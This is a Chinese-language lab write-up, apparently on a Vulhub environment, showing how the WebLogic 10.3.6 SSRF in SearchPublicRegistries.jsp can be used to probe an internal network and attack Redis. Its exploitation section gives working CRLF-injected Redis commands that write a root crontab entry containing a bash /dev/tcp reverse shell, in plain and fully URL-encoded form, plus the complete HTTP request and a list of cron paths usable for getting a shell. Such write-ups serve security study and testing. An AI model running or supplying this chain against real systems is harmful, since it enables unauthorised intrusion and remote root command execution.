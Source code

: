 ## 环境介绍
| 环境 | 版本/地址 |
| --- | --- |
| weblogic | WebLogic Server Version: 10.3.6.0<br />192.168.200.38 / 172.21.0.3 |
| redis | redis_version:2.8.24<br />172.21.0.2 |

## 背景
Weblogic中存在一个SSRF漏洞，利用该漏洞可以发送任意HTTP请求，进而攻击内网中redis、fastcgi等脆弱组件。SSRF漏洞存在于`http://192.168.200.38:7001/uddiexplorer/SearchPublicRegistries.jsp`
访问一个可以访问的IP:PORT，如http://127.0.0.1:7001
可访问的端口将会得到错误，一般是返回status code（如下图），如果访问的非http协议，则会返回did not have a valid SOAP content-type。
![image.png](.//SSRF 示例（weblogic SSRF）.assets/2023_05_19_10_39_44_NSdKtc8R.png)
修改为一个不存在的端口，将会返回could not connect over HTTP to server
![image.png](.//SSRF 示例（weblogic SSRF）.assets/2023_05_19_10_39_45_0JSfnBWX.png)
通过错误的不同，即可探测内网状态。
## 漏洞利用
### 注入HTTP头，利用Redis反弹shell
Weblogic的SSRF有一个比较大的特点，其虽然是一个“GET”请求，但是我们可以通过传入`%0d%0a`来注入换行符，而某些服务（如redis写入计划任务(需要运行在centos上，Ubuntu的定时任务会预检格式是否正确，格式不正确无法启动，由于redis备份文件会带上redis特定的标识，所以Ubuntu不能实现定时任务反弹shell)）是通过换行符来分隔每条命令，也就说我们可以通过该SSRF攻击内网中的redis服务器。
首先，通过ssrf探测内网中的redis服务器（redis服务在172.21.0.2）
![image.png](.//SSRF 示例（weblogic SSRF）.assets/2023_05_19_10_39_46_QqXmKryi.png)
确定存在redis服务之后，通过注入换行符来写入命令至计划任务
```shell
set 1 "\n\n\n\n0-59 0-23 1-31 1-12 0-6 root bash -c 'sh -i >& /dev/tcp/192.168.200.38/8888 0>&1'\n\n\n\n"
config set dir /etc/
config set dbfilename crontab
save
# url 编码为
%73%65%74%20%31%20%22%5c%6e%5c%6e%5c%6e%5c%6e%30%2d%35%39%20%30%2d%32%33%20%31%2d%33%31%20%31%2d%31%32%20%30%2d%36%20%72%6f%6f%74%20%62%61%73%68%20%2d%63%20%27%73%68%20%2d%69%20%3e%26%20%2f%64%65%76%2f%74%63%70%2f%31%39%32%2e%31%36%38%2e%32%30%30%2e%33%38%2f%38%38%38%38%20%30%3e%26%31%27%5c%6e%5c%6e%5c%6e%5c%6e%22%0d%0a%63%6f%6e%66%69%67%20%73%65%74%20%64%69%72%20%2f%65%74%63%2f%0d%0a%63%6f%6e%66%69%67%20%73%65%74%20%64%62%66%69%6c%65%6e%61%6d%65%20%63%72%6f%6e%74%61%62%0d%0a%73%61%76%65
```
注意，换行符是"\r\n"，也就是"%0D%0A"
将url编码后的字符串放在ssrf的域名后面，发送：
```http
GET /uddiexplorer/SearchPublicRegistries.jsp?operator=http://172.21.0.2:6379/%0d%0a%0d%0a%73%65%74%20%31%20%22%5c%6e%5c%6e%5c%6e%5c%6e%30%2d%35%39%20%30%2d%32%33%20%31%2d%33%31%20%31%2d%31%32%20%30%2d%36%20%72%6f%6f%74%20%62%61%73%68%20%2d%63%20%27%73%68%20%2d%69%20%3e%26%20%2f%64%65%76%2f%74%63%70%2f%31%39%32%2e%31%36%38%2e%32%30%30%2e%33%38%2f%38%38%38%38%20%30%3e%26%31%27%5c%6e%5c%6e%5c%6e%5c%6e%22%0d%0a%63%6f%6e%66%69%67%20%73%65%74%20%64%69%72%20%2f%65%74%63%2f%0d%0a%63%6f%6e%66%69%67%20%73%65%74%20%64%62%66%69%6c%65%6e%61%6d%65%20%63%72%6f%6e%74%61%62%0d%0a%73%61%76%65&rdoSearch=name&txtSearchname=11&txtSearchkey=11&txtSearchfor=1111&selfor=Business+location&btnSubmit=Search HTTP/1.1
Host: 192.168.200.38:7001
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:94.0) Gecko/20100101 Firefox/94.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Origin: http://192.168.200.38:7001
Connection: close
Referer: http://192.168.200.38:7001/uddiexplorer/SearchPublicRegistries.jsp
Cookie: publicinquiryurls=http://www-3.ibm.com/services/uddi/inquiryapi!IBM|http://www-3.ibm.com/services/uddi/v2beta/inquiryapi!IBM V2|http://uddi.rte.microsoft.com/inquire!Microsoft|http://services.xmethods.net/glue/inquire/uddi!XMethods|; ADMINCONSOLESESSION=RMpshL7ZPJ5PbTd26g8bNMCTjxvT74cgQ4bQv0tBk4BQZ14MhqhK!-1037380163; JSESSIONID=Zw8hhL7JJmZrsn1GXvYh9zThQnctb7SpJGTT9N9kl8DkkDQ32Gjp!-1037380163
Upgrade-Insecure-Requests: 1


```
实际redis服务接收到的请求如下图所示
![image.png](.//SSRF 示例（weblogic SSRF）.assets/2023_05_19_10_39_47_JDVAE1go.png)
写入计划任务后，执行反弹shell命令如下所示
![image.png](.//SSRF 示例（weblogic SSRF）.assets/2023_05_19_10_39_47_NcODZRIa.png)
## 其他
**最后补充一下，可进行利用的cron有如下几个地方：**

- /etc/crontab 这个是肯定的
- /etc/cron.d/* 将任意文件写到该目录下，效果和crontab相同，格式也要和/etc/crontab相同。漏洞利用这个目录，可以做到不覆盖任何其他文件的情况进行弹shell。
- /var/spool/cron/root centos系统下root用户的cron文件
- /var/spool/cron/crontabs/root debian系统下root用户的cron文件
## 参考链接
[https://vulhub.org/#/environments/weblogi.//](https://vulhub.org/#/environments/weblogi.//)

